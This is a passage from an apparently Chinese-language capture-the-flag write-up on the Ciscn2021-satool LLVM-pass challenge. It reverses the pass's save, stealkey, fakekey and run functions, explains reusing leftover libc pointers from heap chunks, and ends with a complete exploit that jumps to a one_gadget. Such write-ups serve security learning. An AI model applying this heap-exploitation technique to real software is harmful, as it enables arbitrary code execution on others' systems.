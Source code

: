 ```
    store(1);
}

```

### Ciscn2021-satool

分析方法同上，找到模块名为 SApass。然后找到 vtable 最后一项函数：

![](https://image.xxxb.cn/blog/image-20240610135827019.png)

字符串为 r0oDkc4B，转为小端序为 B4ckDo0r。

根据 compare 函数，可以大概把程序划分为 save、takeaway、stealkey、fakeway 函数四个部分。

由于反编译后的代码都很奇怪，需要结合动态调试来分析。

动态调试发现 save 主要执行这段代码：

```
v32 = malloc(0x18uLL);
v32[2] = byte_2040f8;
byte_2040f8 = v32;
 
v33 = (char *)src;
memcpy(v32, src, v31);
 
v34 = v32 + 1;
v35 = (char *)v84[0];
memcpy(v34, v84[0], (size_t)v84[1]);

```

即将参数 1 和参数 2 分别放入 fd、bk 中，v32 和 byte_2040f8 是 0x20 大小 chunk 的指针。

takeaway 函数比较复杂，但是好像没有什么用。

stealkey 函数代码比较简单，将 0x20 大小 chunk 的值赋值给全局变量。

fakekey 函数也比较简单，将全局变量的值加上参数值，然后赋值回到 chunk 中。

run 函数最简单，直接 call *chunk。

思路很明显，先通过 save 函数创建 chunk，然后将 fd 指针的值放到全局变量，加上偏移到 one_gadget 后写回 chunk。

最后调用 run 函数执行 one_gadget。这里的关键是 fd 位置能否是 libc 上的值？

经过调试发现，程序初始状态有很多 chunk。我们可以申请完 tcache 后从 small bin 或 unsorted bin 中取 chunk。

然后绕过第一个 memcpy，这样申请到的 chunk 的 fd 指针位置就会有残留的 libc 地址。

![](https://image.xxxb.cn/blog/image-20240610153435636.png)

完整 exp 如下所示：

```
void save(char* a, char* b);
void stealkey();
void fakekey(int offset);
void run();
 
void B4ckDo0r()
{
    save(0, "bbbb");
    save(0, "bbbb");
    stealkey();
    fakekey(-0x5c30f2);
    run();
}

```